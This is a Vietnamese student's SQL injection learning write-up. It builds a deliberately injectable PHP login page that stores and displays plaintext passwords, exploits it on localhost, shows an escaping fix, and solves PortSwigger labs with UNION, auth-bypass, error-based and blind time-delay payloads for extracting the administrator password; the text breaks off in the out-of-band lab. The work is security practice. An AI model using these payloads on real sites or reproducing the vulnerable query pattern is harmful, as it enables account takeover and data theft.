


# TASK 2

### I. Lỗ hổng SQL injection

1. **Khái niệm**: là lỗ hổng khiến attacker có thể inject được mã SQL vào các truy vấn của trang web, khiến máy chủ thực thi mã SQL, từ đó:
+ leak được thông tin như username, password,… và các thông tin khác từ CSDL
+ sửa đổi, xóa dữ liệu từ CSDL
+ gây ảnh hưởng tới thao tác người dùng
2. **Phân loại**
- In-Band SQLi: xảy ra khi trang web trực tiếp hiển thị kết quả truy vấn từ CSDL
- Blind SQLi: xảy ra khi trang web không trực tiếp hiển thị kết quả truy vấn từ CSDL. Lúc này ta cần lợi dụng các kỹ thuật khai thác như conditional responses, conditional errors, time delays, out-of-band,… Trong đó:
+ conditional responses, conditional errors: dựa vào thông báo lỗi hoặc câu trả lời đúng/sai mà máy chủ phản hồi về để brute force được CSDL
+ time delays: kết hợp điều kiện if else và time delays để xác định thời gian trả về của CSDL, từ đó suy ra được tính đúng sai của câu truy vấn mà ta gửi
+ out-of-band: dựa vào việc máy chủ gửi dữ liệu (bao gồm dữ liệu của CSDL) thông qua kênh mạng đến địa chỉ IP khác mà ta có quyền kiểm soát
1. **Các bước khai thác một lỗ hổng SQL injection**
- Bước 1: Xác định nơi xảy ra SQLi, có thể là thông qua phương thức GET/POST, thông qua cookies,…
- Bước 2: Test thử các input như `'` hay `--` vào nơi xảy ra SQLi để check cấu trúc chuẩn của truy vấn gốc, từ đó suy ra cách truy cập vào CSDL
- Bước 3: Tạo truy vấn để tìm các bảng, các cột dữ liệu có ích rồi leak nó ra. Nếu là blind SQL thì xem có conditional responses hay conditional errors hay không; nếu không thì có thể dùng time delays, out-of-band,…

## II. Code web chứa SQLi

- Ở đây mình lười code nên sẽ lấy code cũ ở task 1, link:  [Task1_Web.](https://github.com/hibird-2005/Web/tree/main/Task1) Vì mình dùng XAMPP [localhost](http://localhost) nên CSDL là MariaDB, khá giống MySQL
- Tuy nhiên code đó của mình ko có lỗi SQLi nên mình đã code lại phần xử lý truy vấn `login_file.php.`Ngoài ra thì ở code cũ, sau khi login mình đã chuyển hướng lại về trang chủ luôn nên sẽ không quan sát được phản hồi truy vấn, thế nên mình cũng sẽ sửa lại một chút. Code hoàn chỉnh:

```python
<?php
session_start();
include "db.php";

$email = $_POST["email"];
$password = $_POST["password"];

$sql = "SELECT * FROM users WHERE email='$email' AND password='$password'";
$result = $conn->query($sql);

if ($result === false) {
    echo "SQL error: " . $conn->error;
} elseif ($result->num_rows >= 1) {
    echo "<h2 style='color: green; text-align: center;'>Đăng nhập thành công!</h2>";
    while ($row = $result->fetch_assoc()) {
        echo "<p style='text-align: center;'>" . $row["email"] . " - " . $row["password"] . "</p>";
    }
    $_SESSION["user"] = $row;
    // Không chuyển hướng tự động, thay bằng liên kết
    echo "<p style='text-align: center;'><a href='index.php'>Tiếp tục đến trang chính</a></p>";
} else {
    echo "<h2 style='color: red; text-align: center;'>Sai tài khoản hoặc mật khẩu</h2>";
    echo "<p style='text-align: center;'><a href='login.php'>Quay lại</a></p>";
}
?>
```

⇒ Lỗi nằm ở dòng code `$sql = "SELECT * FROM users WHERE email='$email' AND password='$password'";`

- Tiếp theo ở phần login, code front end mình để `type=email` nên không nhập SQL vào được, và để fix thì mình chỉ cần thay `type=text`



- Vậy là mình đã thành công tạo ra trang web chứa lỗ hổng SQLi. Tiếp theo mình sẽ exploit trang web này, mục đích của mình là leak được toàn bộ email và password của người dùng khác
- Bước 1: Tìm số cột, mình sẽ dùng ORDER BY:
Với `' ORDER BY 1 -- '` đến `' ORDER BY 7 -- '`, web đều không báo lỗi, đến `' ORDER BY 8 -- '` thì có lỗi. Vậy suy ra truy vấn này có 7 cột



- Bước 2: Tìm xem cột nào có kiểu dữ liệu là string: Khi dùng UNION SELECT, nếu ta đặt dữ liệu kiểu chuỗi (như email, password) vào một cột không phải kiểu chuỗi (như id là kiểu số INT), MariaDB có thể không hiển thị dữ liệu hoặc gây lỗi. Vì vậy, chúng ta cần tìm cột nào trong 7 cột trả về kiểu chuỗi.
⇒ Câu lệnh mình dùng là `' UNION SELECT '1','2','3','4','5','6','7' FROM dual -- '` 
⇒ Kết quả: cột 4 và cột 7 là chuỗi:


- Bước 3: Liệt kê tên của các bảng có trong CSDL
⇒ Câu lệnh mình dùng là: `' UNION SELECT NULL,NULL,NULL,table_name,NULL,NULL,NULL FROM information_schema.tables-- '` 
⇒ KQ: mình tìm được bảng users là bảng cần leak (vì bảng này mình tự tạo tay mà :v)


- Bước 4: Liệt kê tên các cột của bảng users
⇒ Câu lệnh mình dùng là: `' UNION SELECT NULL,NULL,NULL,column_name,NULL,NULL,NULL FROM information_schema.columns WHERE table_name='users'-- '`
⇒ Kết quả: dễ thấy cột email dùng để lưu trữ email, cột password để lưu trữ mật khẩu:


- Bước 5: Liệt kê toàn bộ email và assword của người dùng:
⇒ Code: `' UNION SELECT NULL,NULL,NULL,email,NULL, NULL, password FROM users-- '` 
⇒ Kết quả:


## III. Debug với Xdebug

1. **Code chứa lỗi SQLi**
- Đầu tiên mình thử debug `login_file.php` xem trang web hoạt động như thế nào. Đặt breakpoint tại câu lệnh POST email:


- Thử login bằng một truy vấn SQL:


- Quan sát trước và sau câu lệnh POST email:


⇒ Nhận xét: Ta thấy trước và sau khi POST thì giá trị của email vẫn là 1 truy vẫn SQL, không bị mã hóa gì, dẫn đến lỗi SQLi

1. **Thêm filter mysqli_real_escape_string**
- Hàm `mysqli_real_escape_string` trong PHP dùng để thoát các ký tự đặc biệt trong chuỗi, giúp ngăn chặn SQL Injection khi sử dụng trong truy vấn SQL, bảo vệ truy vấn SQL bằng cách vô hiệu hóa mã độc trong chuỗi đầu vào
- Mình thử thêm hàm `mysqli_real_escape_string` khi POST email để ngăn chặn SQLi:

```python
<?php
session_start();
include "db.php";

$email = mysqli_real_escape_string($conn, $_POST["email"]);
$password = mysqli_real_escape_string($conn, $_POST["password"]);

$sql = "SELECT * FROM users WHERE email='$email' AND password='$password'";
$result = $conn->query($sql);

if ($result === false) {
    echo "SQL error: " . $conn->error;
} elseif ($result->num_rows >= 1) {
    echo "<h2 style='color: green; text-align: center;'>Đăng nhập thành công!</h2>";
    while ($row = $result->fetch_assoc()) {
        echo "<p style='text-align: center;'>" . $row["email"] . " - " . $row["password"] . "</p>";
    }
    $_SESSION["user"] = $row;
    echo "<p style='text-align: center;'><a href='index.php'>Tiếp tục đến trang chính</a></p>";
} else {
    echo "<h2 style='color: red; text-align: center;'>Sai tài khoản hoặc mật khẩu</h2>";
    echo "<p style='text-align: center;'><a href='login.php'>Quay lại</a></p>";
}
?>
```

- Cũng đặt breakpoint tại lệnh POST email:


- Cũng thử với một truy vấn SQL, quan sát trước và sau hai lệnh này:


⇒ Nhận xét:
+ Trước khi thực thi: $email là `' ORDER BY 1-- '`.
+ Sau khi thực thi: $email trở thành `\' ORDER BY 1-- \'` (ký tự ' được thoát thành \')
⇒ Hàm `mysqli_real_escape_string` bảo vệ bằng cách thoát ký tự nguy hiểm, ngăn payload SQLI hoạt động

## IV. Labs from [portswigger.net](http://portswigger.net/)

1. **Lab 1: retrieve hidden data**

<aside>
💡

To solve the lab, perform a SQL injection attack that causes the application to display one or more unreleased products

</aside>

- code: `' OR 1=1--`
- Lúc này QUERY sẽ thành: `SELECT * FROM products WHERE category = 'Lifestyle' OR 1=1 -- ' AND released = 1`
⇒ Sau phần - - thì AND realeased = 1 kia sẽ bị lược bỏ, query sẽ trả về toàn bộ bảng products, bao gồm cả sản phẩm bị ẩn
1. **Lab 2: login as administrator**

<aside>
💡

To solve the lab, perform a SQL injection attack that logs in to the application as the `administrator` user

</aside>

- dùng `administrator--`
=> Query sẽ thành `SELECT * FROM users WHERE username = 'administrator'--' AND password = 'abc';` ⇒ Ta sẽ login vào được tài khoản admin mà không cần mật khẩu

1. **Lab 3: check version of Oracle**

<aside>
💡

To solve the lab, display the database version string

</aside>

- code: `' UNION SELECT banner, NULL FROM v$version--`

1. **Lab 4: check version of MySQL**
- MySQL có 2 kiểu comment là `#` và `--` . Nhưng chúng có sự khác nhau:
Dấu `#` comment đến cuối dòng, bỏ qua phần còn lại trên cùng một dòng.
Dấu `-` (hai dấu gạch ngang) cũng comment đến cuối dòng, nhưng phải có ít nhất một dấu cách hoặc ký tự trắng ngay sau `-` để được hiểu là comment hợp lệ
- Để dùng comment kiểu `--` thì: 
Với Burp Site: dùng`'+UNION+SELECT+'abc','def'-- k`  (k là ký tự bất kỳ). Hoặc nếu thích dùng comment kiểu `#` thì dùng lệnh `'+UNION+SELECT+'abc','def'#`
Với trình duyệt: dùng `' UNION SELECT 'a','b'-- k`
- Lý do không dùng `#` ở trên trình duyệt được là do trình duyệt tự động cắt mất dấu #
- Kiểm tra số cột mà query trả về: dùng `' ORDER BY 2 -- k`
- Code hoàn chỉnh: `' UNION SELECT @@version, NULL-- k`

1. **Lab 5: listing the database contents on PosgreSQL** 

<aside>
💡

To solve the lab, log in as the `administrator` user

</aside>

- Bài này dùng PostgreSQL, check bằng: `' UNION SELECT version(), NULL--`
- Kiểm tra cột: `' UNION SELECT 'a','b'--` ⇒ có 2 cột đều in ra string. Hoặc dùng `' ORDER BY 2--` cũng thấy 2 cột
- Ktra tên các bảng: `' UNION SELECT table_name, NULL FROM information_schema.tables--`
- Liệt kê các cột của bảng bất kỳ: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users_fumqot'--`
- In ra cột username và password của bảng: `' UNION SELECT **username_gusrrz, password_jvssju** FROM users_fumqot--`

1. **Lab 6: listing the database contents on Oracle**
- `' ORDER BY 2--` ⇒ có 2 cột
- `' UNION SELECT 'a', 'b' FROM dual --` ⇒ có in ra 2 cột là string
- Liệt kê tên các bảng: `' UNION SELECT table_name, NULL FROM all_tab_columns--`
- Liệt kê các cột của một bảng: `' UNION SELECT column_name, NULL FROM all_tab_columns WHERE table_name='**USERS_TNEQJR’**--`
- In ra cột username và password của bảng: `' UNION SELECT **PASSWORD_VJDSLS, USERNAME_WYPLDQ** FROM **USERS_TNEQJR**--`

1. **Lab 7: check số cột**

<aside>
💡

To solve the lab, determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing null values

</aside>

- `' ORDER BY 3--` ⇒ có 3 cột
- In 3 cột ra null: `' UNION SELECT NULL, NULL, NULL --`

1. **Lab 8: in ra data từ cột string**

<aside>
💡

To solve the lab, perform a SQL injection UNION attack that returns an additional row containing the value provided. This technique helps you determine which columns are compatible with string data.

</aside>

- Bài này có 3 cột, cột thứ 2 in ra string, đề yêu cầu cột 2 in ra chữ `w5rBt0`
- Code: `' UNION SELECT NULL, 'w5rBt0', NULL --`
- Bonus: `' UNION SELECT NULL, version(), NULL --` ⇒ tìm dc loại CSDL trang web này là PostgreSQL

1. **Lab 9: retrieve data from other tables**

<aside>
💡

To solve the lab, perform a SQL injection UNION attack that retrieves all usernames and passwords, and use the information to log in as the `administrator` user.

</aside>

- Bài này có 2 cột đều in ra
- Dùng `' UNION SELECT NULL, version()--` ⇒ CSDL Postgre
- Liệt kê tên các bảng: `' UNION SELECT table_name, NULL FROM information_schema.tables--`
- Liệt kê tên các cột của bảng: `' UNION SELECT column_name, NULL FROM information_schema.columns WHERE table_name='users'--`
- Code full: `' UNION SELECT **username, password** FROM users--`

1. **Lab 10: retrieve multiple values in a single column**
- Bài này có 2 cột nhưng chỉ in được cột thứ 2
- Dùng Postgre
- Cách 1: chỉ in password
- Cách 2: `' UNION SELECT NULL,username||'~'||password FROM users--`

1. **Lab 11: Blind SQL injection with conditional responses**

<aside>
💡

The results of the SQL query are not returned, and no error messages are displayed. But the application includes a `Welcome back` message in the page if the query returns any rows.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- Blind SQL Injection là một dạng tấn công SQL Injection mà ta không thấy trực tiếp kết quả của truy vấn SQL (như thông báo lỗi hay dữ liệu trả về). Thay vào đó, ta phải suy ra thông tin dựa trên phản hồi gián tiếp của ứng dụng, ví dụ như sự xuất hiện của một thông báo nào đó (ở đây là thông báo "Welcome back")
- Trang web này có một cookie tên là TrackingId (dùng để theo dõi người dùng). Giá trị của cookie này được đưa trực tiếp vào một truy vấn SQL mà không được kiểm tra kỹ, dẫn đến lỗ hổng SQL Injection
- Cookie TrackingId giống như một "thẻ nhận dạng" mà trang web gửi cho ta. Trang web sẽ lấy giá trị của thẻ này (ví dụ: ogAZZfxtOKUELbuJ) và đưa vào một câu lệnh SQL để kiểm tra. Nếu ta thay đổi giá trị thẻ này, ta có thể "lừa" trang web chạy câu lệnh SQL mà ta muốn
- Phân tích trang web:
****- Nếu truy vấn SQL trả về bất kỳ hàng nào (dữ liệu), trang web sẽ hiển thị thông báo "Welcome back".
- Nếu truy vấn không trả về hàng nào, thông báo "Welcome back" sẽ không xuất hiện.
⇒ Ta có thể dùng sự xuất hiện hoặc vắng mặt của "Welcome back" để đoán thông tin (giống như chơi trò đoán đúng/sai)
- Burp Intruder là một công cụ trong Burp Suite được sử dụng để tự động hóa các cuộc tấn công bằng cách gửi nhiều yêu cầu HTTP với các giá trị khác nhau (payloads) trong các vị trí được xác định trước. Trong bài lab này, ta cần dùng Burp Intruder để brute force các ký tự (a-z, 0-9) ở từng vị trí của mật khẩu để tìm giá trị đúng, dựa trên sự xuất hiện của thông báo "Welcome back" trong phản hồi
- **Bước 1: Kiểm tra lỗ hổng bằng điều kiện đúng/sai: 
Ta thêm truy vấn vào TrackingId**
`TrackingId=xyz' AND '1'='1` ⇒ "Welcome back" xuất hiện. Vì '1'='1' là đúng nên truy vấn trả về dữ liệu
`TrackingId=xyz' AND '1'='2` ⇒ "Welcome back" không xuất hiện. Vì '1'='2' là sai nên truy vấn không trả về dữ liệu
- **Bước 2: Xác nhận bảng users tồn tại:** 
`TrackingId=xyz' AND (SELECT 'a' FROM users LIMIT 1)='a`
⇒ Ta truy vấn: "Có bảng nào tên là users không? Lấy chữ 'a' từ bảng đó (chỉ lấy 1 hàng), và kiểm tra xem nó có phải là 'a' không”
⇒ Vì "Welcome back" xuất hiện, điều kiện đúng, nghĩa là bảng users tồn tại. Nếu không có bảng users, truy vấn sẽ thất bại, và "Welcome back" sẽ không xuất hiện
- **Bước 3: Xác nhận người dùng administrator tồn tại:**
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator')='a`
⇒ Ta truy vấn: "Trong bảng users, có người dùng nào tên là administrator không?". Vì "Welcome back" xuất hiện, câu trả lời là có
- **Bước 4: Xác định độ dài mật khẩu của administrator:**
`TrackingId=xyz' AND (SELECT 'a' FROM users WHERE username='administrator' AND LENGTH(password)>1)='a`
⇒ Tiếp tục thử với các giá trị lớn hơn. Lặp lại cho đến khi "Welcome back" không xuất hiện nữa. Ta thấy LENGTH(password)>20, "Welcome back" biến mất, nghĩa là mật khẩu dài đúng 20 ký tự
⇒ Dùng Intruder để brute force

<aside>
💡

Cách dùng Intruder: Đầu tiên ta intercept sau đó forward, sau đó vào tab history HTTP, chọn cái phù hợp để send to repeater. Khi nào cần brute force thì send to Intruder

</aside>

- **Bước 5: Đoán từng ký tự của mật khẩu**
`TrackingId=xyz' AND (SELECT SUBSTRING(password,1,1) FROM users WHERE username='administrator')='a`
⇒ Dùng Intruder để brute force

1. **Lab 12: Blind SQL injection with conditional errors**

<aside>
💡

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows. If the SQL query causes an error, then the application returns a custom error message.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- Phân tích trang web:
Nếu truy vấn SQL gây ra lỗi, trang web sẽ hiển thị một thông báo lỗi tùy chỉnh (custom error message)
Ta có thể dùng thông báo lỗi này để suy ra thông tin (giống như chơi trò đoán đồ vật, nhưng dựa vào việc có lỗi hay không)
Nếu truy vấn không gây lỗi, trang web trả về bình thường (không có thông báo lỗi)
- **Bước 1: Kiểm tra lỗ hổng bằng cách gây lỗi cú pháp:**
`TrackingId=xyz'` ⇒ Có lỗi, vì dấu `'` thừa làm hỏng cú pháp SQL. Truy vấn gốc có thể là `SELECT * FROM tracking WHERE tracking_id='xyz'`
`TrackingId=xyz''` ⇒ Không có lỗi, vì `''` là một chuỗi rỗng hợp lệ trong SQL
- **Bước 2: Xác nhận CSDL**
`TrackingId=xyz'||(SELECT '')||'` ⇒ lỗi, vì trong Oracle, mọi truy vấn SELECT phải chỉ định một bảng (như dual)
`TrackingId=xyz'||(SELECT '' FROM dual)||’` ⇒ Không có lỗi, vì dual là bảng hợp lệ trong Oracle.
`TrackingId=xyz'||(SELECT '' FROM not-a-real-table)||’` ⇒ Có lỗi, vì bảng not-a-real-table không tồn tại.
⇒ Kết luận: Trang web có lỗi SQL, cơ sở dữ liệu là Oracle.
- **Bước 3: Xác nhận bảng users tồn tại**
`TrackingId=xyz'||(SELECT '' FROM users WHERE ROWNUM = 1)||'` ⇒ Không có lỗi, nghĩa là bảng users tồn tại.
- **Bước 4: Kiểm tra điều kiện đúng/sai bằng cách gây lỗi:**
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
⇒ Có lỗi (vì 1=1 đúng, gây chia cho 0)
`TrackingId=xyz'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'`
⇒ Khi 1=2, truy vấn không gây lỗi (HTTP 200) vì nó không chia cho 0 và trả về chuỗi rỗng
⇒ Tưởng tượng ta có truy vấn sau: "Nếu 1=1, hãy làm gì đó sai (chia 1 cho 0)". Vì 1=1 là đúng nên nó sẽ lỗi. Sau đó, ta hỏi: "Nếu 1=2, hãy làm gì đó sai". Vì 1=2 là sai, nên vế 2 ko được thực hiện, nên không báo lỗi
- **Bước 5: Xác nhận người dùng administrator tồn tại**
`TrackingId=xyz'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
⇒ "Có người dùng administrator trong bảng users không? Nếu có, hãy làm gì đó sai". Vì có lỗi, ta suy ra administrator tồn tại.
- **Bước 6: Xác định độ dài mật khẩu của administrator:**
`TrackingId=xyz'||(SELECT CASE WHEN LENGTH(password)>1 THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`
⇒ Giải thích truy vấn: "Mật khẩu của administrator dài hơn 1 ký tự không? Nếu đúng, hãy báo lỗi". Vì có lỗi nên mật khẩu dài hơn 1. Ta tiếp tục hỏi: "Dài hơn 2? 3? ...". Khi hỏi "Dài hơn 20?" mà không có lỗi, ta suy ra mật khẩu dài đúng 20 ký tự
- **Bước 8: Đoán từng ký tự của mật khẩu**
`TrackingId=xyz'||(SELECT CASE WHEN SUBSTR(password,1,1)='a' THEN TO_CHAR(1/0) ELSE '' END FROM users WHERE username='administrator')||'`

1. **Lab 13: Visible error-based SQL injection**
- Kết quả của truy vấn SQL không được hiển thị trực tiếp. Tuy nhiên, nếu truy vấn có lỗi, máy chủ sẽ trả về thông báo lỗi chi tiết (verbose error message), và ta có thể lợi dụng thông báo lỗi này để rò rỉ thông tin
- Thử thêm `'` ở sau TrackingId: `TrackingId=ogAZZfxtOKUELbuJ’` ⇒ Có lỗi `ERROR: unclosed string literal ... WHERE tracking_id='ogAZZfxtOKUELbuJ'’`
⇒ Truy vấn SQL gốc có dạng: `WHERE tracking_id='ogAZZfxtOKUELbuJ'`
⇒ Khi ta thêm dấu ', truy vấn trở thành `WHERE tracking_id='ogAZZfxtOKUELbuJ''`
⇒ Dấu ' thừa gây lỗi cú pháp vì nó không được đóng lại
- Thử thêm `'--`: `TrackingId=ogAZZfxtOKUELbuJ'--` ⇒ Lần này không có lỗi nữa, nghĩa là truy vấn SQL đã hợp lệ
⇒ Sau khi thêm thì phần sau `--` là comment nên bị bỏ qua, không còn lỗi
- Thử thêm một truy vấn con SELECT và ép kiểu (cast) kết quả thành số nguyên (int)
`TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--`
⇒ `ERROR: AND condition must be a boolean expression`  (AND CAST((SELECT 1) AS int) không phải là một biểu thức đúng/sai (boolean))
⇒ Ta đang cố thêm một câu hỏi nhỏ vào truy vấn: "Lấy số 1 và biến nó thành số nguyên". Nhưng máy chủ yêu cầu điều kiện sau AND phải là một câu hỏi đúng/sai (ví dụ: 1=1). Vì CAST((SELECT 1) AS int) chỉ trả về số 1 chứ không phải câu hỏi đúng/sai, máy chủ báo lỗi
- Sửa truy vấn để tạo điều kiện đúng/sai: 
`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--`
⇒ Không còn lỗi, truy vấn hợp lệ
⇒ Ta đã sửa câu lệnh thành: "Lấy số 1, biến thành số nguyên, và kiểm tra xem nó có bằng 1 không". Vì 1=1 là đúng, truy vấn không báo lỗi nữa. Điều này cho thấy ta có thể chèn truy vấn SQL vào TrackingId
- Thử lấy thông tin từ bảng users: 
`TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--`
⇒ Lỗi xuất hiện trở lại, và truy vấn bị cắt ngắn (truncated) do giới hạn ký tự
⇒ Giải thích: giả sử ta có truy vấn "Lấy tất cả tên người dùng từ bảng users". Nhưng vì giá trị cookie quá dài, máy chủ cắt bớt câu hỏi, làm hỏng cú pháp. Giới hạn ký tự này có thể do máy chủ hoặc cơ sở dữ liệu đặt ra.
- Rút ngắn cookie để tránh giới hạn ký tự: 
`TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--`
⇒ `ERROR: query returned more than one row` (Bảng users có nhiều người dùng, nhưng CAST chỉ chấp nhận một giá trị duy nhất)
- Thêm LIMIT 1 để chỉ lấy một người dùng:
`TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--`
⇒ `ERROR: invalid input syntax for type integer: "administrator"`
⇒ Thông báo lỗi này tiết lộ rằng người dùng đầu tiên trong bảng là administrator
⇒ Giải thích: giả sử ta có truy vấn "Chỉ lấy tên người dùng đầu tiên và biến thành số". Máy chủ trả về tên đầu tiên là administrator, nhưng không thể biến "administrator" thành số (vì nó là chữ, không phải số), nên báo lỗi. Điều này vô tình cho ta biết người dùng đầu tiên là administrator
- Sửa truy vấn để lấy password thay vì username:
`TrackingId=' AND 1=CAST((SELECT password FROM users LIMIT 1) AS int)--`
⇒  Giải thích: giả sử ta có truy vấn "Lấy mật khẩu của người dùng đầu tiên". Vì người dùng đầu tiên là administrator, máy chủ trả về mật khẩu của admin. Nhưng vì mật khẩu là chữ, không phải số, máy chủ lại báo lỗi, và lỗi này vô tình tiết lộ mật khẩu cho ta

1. **Lab 14: Blind SQL injection with time delays**

<aside>
💡

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

</aside>

- Truy vấn SQL được thực hiện đồng bộ (synchronously), ta có thể chèn một câu lệnh để gây độ trễ thời gian (time delay). Nếu trang web mất đúng thời gian ta đặt để phản hồi, ta sẽ biết rằng câu lệnh SQL của ta đã được thực thi.
- Mục tiêu: Khai thác lỗ hổng để tạo ra một độ trễ 10 giây trong phản hồi của trang web, chứng minh rằng ta có thể điều khiển truy vấn SQL.
- Dấu `||` trong SQL (đối với PostgreSQL) có nghĩa là nối chuỗi. Dấu `'` đóng chuỗi ban đầu, và `||`cho phép ta thêm mã SQL của mình.
- Khi thêm `'||`, truy vấn trở thành: 
`SELECT * FROM tracking WHERE tracking_id='x'||`
- Code: `TrackingId=x'||pg_sleep(10)--`
Trong đó  `pg_sleep(10)`là một hàm trong PostgreSQL, yêu cầu cơ sở dữ liệu "ngủ" (tạm dừng) trong 10 giây. Khi chèn vào truy vấn, nó sẽ làm cho truy vấn mất 10 giây để hoàn thành.
- Sau khi nhấn Send, ta thấy trang web mất đúng 10 giây để phản hồi. Điều này chứng minh rằng câu lệnh `pg_sleep(10)` đã được thực thi, và ta đã khai thác thành công lỗ hổng

1. **Lab 15: Blind SQL injection with time delays and information retrieval**

<aside>
💡

The results of the SQL query are not returned, and the application does not respond any differently based on whether the query returns any rows or causes an error. However, since the query is executed synchronously, it is possible to trigger conditional time delays to infer information.

The database contains a different table called `users`, with columns called `username` and `password`. You need to exploit the blind SQL injection vulnerability to find out the password of the `administrator` user.

To solve the lab, log in as the `administrator` user.

</aside>

- **Phân tích trang web:**
Vì truy vấn SQL được thực hiện đồng bộ (synchronously), tan có thể chèn một câu lệnh để gây độ trễ thời gian (time delay).
Nếu điều kiện ta đặt là đúng, trang web sẽ mất 10 giây để phản hồi (do pg_sleep(10)). Nếu sai, phản hồi sẽ ngay lập tức (do pg_sleep(0)).
Ta dùng độ trễ thời gian để suy ra thông tin (giống như chơi trò đoán đúng/sai, dựa trên thời gian trả lời)
- **Bước 1: Kiểm tra lỗ hổng bằng độ trễ thời gian:**
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
⇒ Trang web mất 10 giây để phản hồi (vì 1=1 đúng, nên pg_sleep(10) được thực thi).
`TrackingId=x'%3BSELECT+CASE+WHEN+(1=2)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--`
⇒ Với 1=2 thì trang web phản hồi ngay lập tức (vì 1=2 sai, nên pg_sleep(0) được thực thi)
- **Bước 2: Xác nhận người dùng administrator tồn tại:**
`TrackingId=x'%3BSELECT+CASE+WHEN(username='administrator')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
⇒ Trang web mất 10 giây để phản hồi, nghĩa là điều kiện đúng, người dùng administrator tồn tại.
- **Bước 3: Xác định độ dài mật khẩu của administrator**
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+LENGTH(password)>1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`
- **Bước 4: Đoán từng ký tự của mật khẩu**
`TrackingId=x'%3BSELECT+CASE+WHEN+(username='administrator'+AND+SUBSTRING(password,1,1)='§a§')+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END+FROM+users--`

1. **Lab 16: Blind SQL injection with out-of-band interaction**

<aside>
💡

The SQL query is executed asynchronously and has no effect on the application's response. However, you can trigger out-of-band interactions with an external domain.

To solve the lab, exploit the SQL injection vulnerability to cause a DNS lookup to Burp Collaborator.

</aside>

- Phân tích trang web:
Truy vấn SQL được thực hiện không đồng bộ (asynchronously), nghĩa là nó không ảnh hưởng đến phản hồi của trang web (không có độ trễ thời gian hay thông báo lỗi để khai thác)
